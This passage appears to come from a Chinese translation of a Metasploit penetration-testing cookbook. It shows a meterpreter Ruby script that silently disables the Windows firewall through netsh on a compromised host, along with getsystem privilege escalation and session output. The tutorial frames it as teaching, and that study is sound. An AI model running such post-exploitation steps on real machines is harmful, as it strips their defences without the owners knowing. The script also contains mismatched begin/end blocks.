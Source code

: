 +   **使用 mixin：** Mixin 是 meterpreter 中的一个重要概念。使用 mixin 可以使我们的脚本看起来更简单、更容易。

在编写 meterpreter 脚本时，您应该牢记这些准则。

让我们打开任何文本编辑器开始编写 Ruby 脚本。如果您正在使用 BackTrack，则可以使用 Gedit 文本编辑器。

## 如何做到...

1.  在文本编辑器中输入以下代码行。在转到解释部分之前，仔细查看脚本，并尝试弄清楚每行的含义。脚本很容易理解。

```
# Author: Abhinav Singh
# Windows Firewall De-Activator
#Option/parameter Parsing
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default windows Firelwall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
}
# OS validation and command execution
unsupported if client.platform !~ /win32|win64/i
end
begin
print_status("disabling the default firewall")
cmd_exec('cmd /c','netsh advfirewall set AllProfiles state off',5) 
```

一旦您输入了代码，请将其保存为`myscript.rb`，保存在`/pentest/exploits/framework3/scripts/meterpreter`目录下。

1.  执行此脚本，我们将需要一个 meterpreter 会话。可以使用`run`命令来执行 Ruby 脚本。但是，在使用脚本之前，请确保您在目标机器上拥有系统特权。

```
meterpreter > getsystem
...got system (via technique 4).
meterpreter > run myscript.rb
[*] disabling the default firewall
meterpreter > 
```

成功执行脚本将悄悄地禁用默认防火墙。命令的执行发生在后台，因此目标用户对此毫不知情。现在让我们详细了解脚本。

## 它是如何工作的...

让我们分析脚本的每个部分。

```
opts = Rex::Parser::Arguments.new(
"-h" => [ false, "Help menu." ]
)
opts.parse(args) { |opt, idx, val|
case opt
when "-h"
print_line "Meterpreter Script for disabling the Default Windows Firewall"
print_line "Let's hope it works"
print_line(opts.usage)
raise Rex::Script::Completed
end
} 
```
